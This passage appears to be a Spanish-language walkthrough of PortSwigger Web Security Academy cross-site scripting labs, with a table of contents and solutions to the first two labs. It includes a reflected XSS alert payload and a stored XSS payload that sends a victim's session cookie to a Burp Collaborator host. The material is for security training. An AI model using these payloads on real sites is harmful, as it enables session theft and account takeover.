 - [23. Lab: DOM XSS in innerHTML sink using source location.search](#23-lab-dom-xss-in-innerhtml-sink-using-source-locationsearch)
- [24. Lab: DOM XSS in jQuery anchor href attribute sink using location.search source](#24-lab-dom-xss-in-jquery-anchor-href-attribute-sink-using-locationsearch-source)
- [25. Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded](#25-lab-dom-xss-in-angularjs-expression-with-angle-brackets-and-double-quotes-html-encoded)
- [26. Lab: Reflected DOM XSS](#26-lab-reflected-dom-xss)
- [27. Lab: Stored DOM XSS](#27-lab-stored-dom-xss)
- [28. Lab: Reflected XSS protected by CSP, with dangling markup attack](#28-lab-reflected-xss-protected-by-csp-with-dangling-markup-attack)
- [29. Lab: Reflected XSS protected by very strict CSP, with dangling markup attack (P)](#29-lab-reflected-xss-protected-by-very-strict-csp-with-dangling-markup-attack-p-)
- [30. Lab: Reflected XSS protected by CSP, with CSP bypass (P)](#30-lab-reflected-xss-protected-by-csp-with-csp-bypass-p-)
- [CONCLUSION](#conclusion)

## 1. Lab: Reflected XSS into HTML context with nothing encoded

```
Este laboratorio contiene una vulnerabilidad XSS reflejada simple en la función de búsqueda.

Para resolver el laboratorio, realice un ataque XSS que llame a la función alert.
```

Payload

```
https://acc21f861f22e8c880220b6c0070003c.web-security-academy.net/?search=<script>alert(1)</script>
```

![](img1.png)

## 2. Lab: Exploiting cross-site scripting to steal cookies

```
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.
```

Para este laboratorio vamos a ingresar a un post y realizar un comentario mientras interceptamos todos los paquetes en segundo plano mediante la herramienta de burpsuite. Luego lo enviamos al repeater y preparamos nuestro payload.

```
<script>document.location='http://lti3h8huag0tmmzul0n2ujpz0q6gu5.burpcollaborator.net/?'+document.cookie</script>
```

Entonces lo enviamos en el repeater, y esperamos la respuesta en el burp collaborator.

![](img2.png)

Entonces, la cookie robada es la siguiente:
